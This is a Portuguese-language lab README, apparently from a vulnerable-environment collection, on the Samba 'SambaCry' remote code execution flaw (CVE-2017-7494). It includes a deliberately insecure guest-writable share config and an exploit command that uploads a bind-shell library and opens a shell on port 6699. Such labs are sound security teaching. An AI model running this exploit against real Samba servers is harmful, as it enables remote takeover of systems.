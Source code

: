 # Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)

O Samba é o conjunto de programas de interoperabilidade padrão do Windows para Linux e Unix, que fornece serviços de impressão e arquivos seguros, estáveis e rápidos para todos os clientes que usam o protocolo SMB/CIFS.

Samba 3.x após 3.5.0 e 4.x antes de 4.4.14, 4.5.x antes de 4.5.10 e 4.6.x antes de 4.6.4 que é vulnerável a uma vulnerabilidade de execução remota de código chamada **SambaCry**. O CVE-2017–7494 permite que usuários autenticados remotos carreguem uma biblioteca compartilhada para uma pasta compartilhada gravável e executem ataques de execução de código para assumir o controle de servidores que hospedam serviços Samba vulneráveis.

## Configuração do ambiente

Execute os seguintes comandos para iniciar um servidor Samba 4.6.3:

```
docker-compose up -d
```

## Princípio

Referência a [Exploit SambaCry RCE](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) é uma tecnologia poderosa para criar programas cliente/servidor distribuídos. RPC é uma técnica de comunicação entre processos que permite que software cliente e servidor se comuniquem.
>
> O protocolo MSRPC permite conectar-se a um pipe nomeado a partir de um destino remoto. Ao tentar abrir um pipe usando MSRPC no Samba, o servidor verifica a validade do nome do pipe usando a função interna `is_known_pipename()`.
>
> Um servidor RPC externo pode ser configurado usando a variável 'rpc_server' dentro do smb.conf e então ele irá lidar com a requisição do pipe.
>
> A função `is_known_pipename()` não verifica se o pipe é válido, isso permite usar '/' para inserir um caminho completo de uma biblioteca arbitrária.

Os requisitos de exploração:

- Um servidor gravável anônimo ou uma conta Samba autenticada
- Um caminho conhecido do diretório de compartilhamento gravável

Veja também:

- https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
- https://github.com/opsxcq/exploit-CVE-2017-7494
- http://bobao.360.cn/learning/detail/3900.html

## Explorando

Configuração do Samba (você pode encontrar [aqui](smb.conf)) do nosso servidor de destino:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` para testar a conexão:

```
smbclient //your-ip/myshare -N
```

![](02.png)

Se você tiver um erro de conexão, verifique sua rede, especialmente a porta 445.

Usando <https://github.com/opsxcq/exploit-CVE-2017-7494> para explorar o servidor:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Comandos de execução bem-sucedidos:

![](01.png)

Observe que o `exploit/linux/samba/is_known_pipename` do metasploit foi testado com falha desde a versão XX (não sei) e tenho certeza de que funciona em junho de 2017.
